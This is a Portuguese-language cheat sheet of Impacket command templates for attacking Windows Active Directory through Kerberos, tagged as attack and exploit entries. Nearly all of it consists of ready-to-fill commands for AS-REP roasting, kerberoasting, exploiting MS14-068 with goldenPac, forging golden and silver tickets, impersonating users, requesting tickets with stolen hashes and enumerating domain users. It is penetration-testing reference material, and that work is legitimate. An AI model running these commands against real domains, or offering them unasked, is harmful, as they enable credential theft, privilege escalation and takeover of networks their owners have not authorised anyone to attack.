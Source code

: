 # Impacket

% impacket, windows, kerberos, 88

## GetNPUsers Tenta obter um ticket TGT sem uma senha. (ASREPRoasting)
#plateform/linux #target/remoto #cat/ATTACK/EXPLOIT 
```
GetNPUsers.py <domain>/<user> -no-pass -request -format hashcat
```

## GetNPUsers - tenta listar e obter os TGTs dos usuarios que possuem a propriedade "Não exigir pré-autenticação Kerberos" ativada.  (ASREPRoasting)
#plateform/linux #target/remoto  #cat/ATTACK/EXPLOIT 
```
GetNPUsers.py -dc-ip <dc_ip> <domain>/ -usersfile <users_file> -format hashcat
```

## GetUSERSPN - Busca por Service Principal Names (SPNs -> Nome de Entidade de Serviço) que estão associados a uma conta normal de usuário (kerberoasting)
#plateform/linux #target/remoto  #cat/ATTACK/EXPLOIT 
```
GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<user>:<password>
```

## MS14-068 - goldenPac - CVE-2014-6324 (MS14-068) 
#plateform/linux #target/remoto  #cat/ATTACK/EXPLOIT
Um script para explorar a vulnerabilidade CVE-2014-6324 (MS14-068), caso o alvo seja vulnerável é possivel gerar um "Golden Ticket" sem saber a hash da senha do "krbtgt" burlando a verificação de assinatura do PAC. 
```
goldenPac.py -dc-ip <dc_ip> <domain>/<user>:'<password>'@<target>
```

## Ticketer - (golden ticket) - gera tickets TGT/TGS no formato ccache que podem ser futuramente convertidos para o formato kirbi. 
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -nthash <nthash> -domain-sid <domain_sid> -domain <domain> <user>
```


## Ticketer - (silver ticket) - gera tickets TGS no formato ccache que pode ser futuramente convertidos para o formato kirbi.
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -nthash <nthash> -domain-sid <domain_sid> -domain <domain> -spn <SPN> <user>
```

## TicketConverter - Converte arquivos kirbi (geralmente usados pelo mimikatz) em arquivos ccache usados pelo impacket.
#plateform/linux #target/local  #cat/UTILS
```
ticketConverter.py <ccache_ticket_file> <ticket_kirbi_file>
```

## Silver ticket - Personificar um usuário
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
getST.py -spn cifs/<target> <domain>/<netbios_name>\$ -impersonate <user>
```

## GetTGT - Solicita um TGT e salva o ticket como um arquivo "ccache" utilizando uma senha, hash ou aesKey
#plateform/linux #target/remote  #cat/UTILS
```
getTGT.py -dc-ip <dc_ip> -hashes <lm_hash>:<nt_hash> <domain>/<user>
```

## GetADUser - Coleta informações sobre os usuários do domínio e os endereços de e-mail correspondentes
#plateform/linux #target/remote  #cat/RECON 
```
GetADUsers.py -all <domain>/<user>:<password> -dc-ip <dc_ip>
```
